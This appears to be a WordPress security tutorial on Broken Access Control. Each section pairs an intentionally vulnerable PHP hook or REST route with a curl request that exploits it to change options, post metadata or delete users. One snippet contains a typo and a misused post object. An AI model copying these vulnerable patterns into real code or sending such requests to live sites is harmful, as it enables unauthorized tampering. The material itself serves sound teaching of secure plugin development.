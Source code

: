 ```yaml
---
title: Broken Access Control
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible Broken Access Control on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to access or update sensitive information.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.


## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code:

```php
add_action("init", "check_if_update");

function check_if_update(){
    if(isset($_GET["update"])){
        update_option("user_data", sanitize_text_field($_GET_["data"]));
    }
}
```

To exploit this, an unauthenticated user just needs to visit the front page of a WordPress site and specify the parameter to trigger the `update_option` function which in this case will modify sensitive information.

```bash
curl <WORDPRESS_BASE_URL>/?update=1&data=test
```

## `admin_init` hook

For more details about the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code:

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
    if(isset($_POST["delete"])){
        delete_option("custom_admin_menu");
    }
}
```

To exploit this, the unauthenticated user just needs to perform a POST request to the `admin-ajax.php` and `admin-post.php` endpoints specifying the needed parameter to trigger the `delete_option` function to remove sensitive data.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat -d "delete=1"
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST["update"])){
        $post_id = get_post($_POST["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, any authenticated user (**Subscriber+** role) just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_post_meta` function to update arbitrary WP Post metadata.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data&update=1 -d "id=1&data=changed"
``` 

## [`wp_ajax_nopriv_{$action}`](https://developer.wordpress.org/reference/hooks/wp_ajax_nopriv_action/) hook

For more details on the `wp_ajax_nopriv_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_nopriv_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_toggle_menu_bar", "toggle_menu_bar");

function toggle_menu_bar(){
    if ($_POST["toggle"] === "1"){
        update_option("custom_toggle", 1);
    }
    else{
        update_option("custom_toggle", 0);
    }
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_option` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=toggle_menu_bar -d "toggle=1"
``` 

## `register_rest_route` function

For more details on the `register_rest_route` function, please refer to this [documentation](/wordpress/wordpress-internals/functions/#register_rest_route-function).

Sometimes, developers don't implement a proper permission check on the custom REST API route and use the `__return_true` string as the permission callback. This makes the custom REST API route to be publicly accessible.

```php
add_action( 'rest_api_init', function () {
  register_rest_route( 'myplugin/v1', '/delete/author', array(
    'methods' => 'POST',
    'callback' => 'delete_author_user',
    'permission_callback' => '__return_true',
  ) );
} );

function delete_author_user($request){
    $params = $request->get_params();
    wp_delete_user(intval($params["user_id"]));
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/delete/author` endpoint specifying the needed parameter to trigger the `wp_delete_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/delete/author -d "user_id=1"
``` 

Other cases could exist where developers already specify a proper function on the `permission_callback` parameter, however, the permission check implemented inside the function itself is not proper to what process can be done from the REST API route `callback` function.
